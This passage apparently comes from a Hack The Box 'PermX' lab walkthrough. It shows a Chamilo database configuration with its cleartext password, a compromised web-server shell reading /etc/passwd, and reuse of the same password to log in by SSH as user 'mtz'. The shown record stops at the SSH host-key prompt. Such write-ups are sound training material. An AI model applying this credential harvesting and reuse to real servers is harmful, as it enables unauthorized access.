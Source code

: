## I found this:
```
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```
## Let view number of users:
```
www-data@permx:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
```
## Let login using SSH
* ## User = ```mtz```
* ## Pass = ```03F6lY3uXAP2bkW8```
```
death@esther:~/Lab/htb-labs/permx$ ssh mtz@10.10.11.23
The authenticity of host '10.10.11.23 (10.10.11.23)' can't be established.
ED25519 key fingerprint is SHA256:u9/wL+62dkDBqxAG3NyMhz/2FTBJlmVC1Y1bwaNLqGA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.23' (ED25519) to the list of known hosts.
```